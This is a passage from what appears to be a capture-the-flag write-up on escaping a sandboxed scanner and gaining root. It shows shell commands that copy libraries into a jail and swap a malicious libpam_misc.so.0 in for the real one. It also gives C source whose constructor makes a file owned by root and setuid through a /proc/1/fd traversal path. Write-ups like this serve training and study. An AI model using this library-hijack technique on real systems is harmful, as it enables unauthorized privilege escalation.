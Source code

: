 

    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam_misc.so.0; echo "copied libs"
    [1] 124368
    copied libs
    clarence@scanned:/var/www/malscanner/sandbox$ /proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam_misc.so.0: no version information available (required by /proc/1/fd/3/../../../../../../../usr/bin/su)
    /proc/1/fd/3/../../../../../../../usr/bin/su: symbol lookup error: /proc/1/fd/3/../../../../../../../usr/bin/su: undefined symbol: misc_conv, version LIBPAM_MISC_1.0
    Exited
    Kill err: (3)



This time is still missing the version info, but no library is
complaining about it's not being there. There is a symbol look up error
for the `misc_conv` function: "undefined symbol: misc_conv, version
LIBPAM_MISC_1.0"

#### Add misc_conv Function

The definition for this function is
[here](https://man7.org/linux/man-pages/man3/misc_conv.3.md):



           int misc_conv(int num_msg, const struct pam_message **msgm,
                         struct pam_response **response, void *appdata_ptr);



I'll add this to the library, and just have it return 1:



    #include <stdlib.h>
    #include <unistd.h>
    #include <sys/stat.h>

    int misc_conv(int num_msg, const struct pam_message **msgm, struct pam_response **response, void *appdata_ptr) {
        return 1;
    }

    static __attribute__ ((constructor)) void init(void) {

        char fn[120] = "/proc/1/fd/3/../../../../../../../../tmp/0xdf";
        char mode[] = "4777";
        int mode_int = strtol(mode, 0, 8);
        chown(fn, 0, 0);
        chmod(fn, mode_int);
    }



When I compile it, there are warnings for unknown types, but that's ok:

